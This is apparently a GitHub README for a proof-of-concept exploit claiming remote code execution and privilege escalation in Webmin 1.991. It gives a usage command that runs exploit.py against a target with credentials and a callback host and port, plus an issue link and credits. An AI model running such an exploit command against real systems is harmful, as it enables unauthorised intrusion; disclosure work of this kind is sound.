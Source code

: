 # rce_webmin
RCE and privilege escalation webmin version 1.991


# poc:

```bash
/usr/bin/env /bin/python ./exploit.py -u 'https://localhost:10000' -un 'safeusername' -pw 'safeuserpassword' -rh 'localhost' -rp 4445
```

# Track the issue here:

https://github.com/webmin/webmin/issues/1635


# Credits 

Thanks to the people below:

V1s3r1on for finding the CVE with me. 

@chris001 for helping us out with the CVE numbers.

Rajchowdhury420 for fixing the SSL errors in console.


